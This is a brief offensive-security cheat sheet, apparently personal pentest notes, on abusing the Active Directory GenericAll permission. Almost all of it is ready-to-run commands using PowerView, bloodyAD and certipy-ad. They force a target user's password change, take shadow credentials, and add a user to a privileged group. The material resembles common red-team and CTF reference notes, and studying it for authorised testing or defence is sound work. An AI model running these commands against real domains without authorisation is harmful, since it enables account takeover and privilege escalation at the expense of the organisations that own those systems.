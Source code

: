 ```yaml
---
title: "GenericAll"
date: 2024-7-12
tags: ["GenericAll", "active driectory", "ad", "Windows", "shadow credentials"]
---
```


---
### Abuse #1: Change target user password (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Change target user password

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force 
```

```powershell
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password
```

### Abuse #1: Change target user password (From Linux)

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> set password <TARGET_USER> <NEW_PASSWORD>
```

### Abuse #2: Get shadow credentials (From Linux)

```bash
sudo ntpdate -s <DC> && certipy-ad shadow auto -username <USERNAME>@<DOMAIN> -password <PASSWORD> -k -account <TARGET_USER> -target <DC>
```

### Abuse #3 : Add user to group (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Create cred object (runas) \[optional\]

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 2. Add user to group

```powershell
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

<br>